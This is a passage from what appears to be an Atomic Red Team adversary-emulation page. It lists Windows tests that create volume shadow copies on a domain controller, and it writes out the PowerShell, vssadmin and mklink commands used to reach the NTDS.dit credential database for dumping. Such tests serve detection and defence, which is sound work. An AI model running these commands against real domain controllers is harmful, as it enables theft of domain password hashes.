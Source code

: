 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
(gwmi -list win32_shadowcopy).Create('#{drive_letter}','ClientAccessible')
```






<br/>
<br/>

## Atomic Test #8 - Create Symlink to Volume Shadow Copy
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by creating a symlink to Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** 21748c28-2793-4284-9e07-d6d028b66702





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | string | C:|
| symlink_path | symlink path | string | C:&#92;Temp&#92;vssstore|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe create shadow /for=#{drive_letter}
mklink /D #{symlink_path} \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```






<br/>
<br/>

## Atomic Test #9 - Create Volume Shadow Copy with diskshadow
This test is intended to be run on a domain controller
An alternative to using vssadmin to create a Volume Shadow Copy for extracting ntds.dit

**Supported Platforms:** Windows
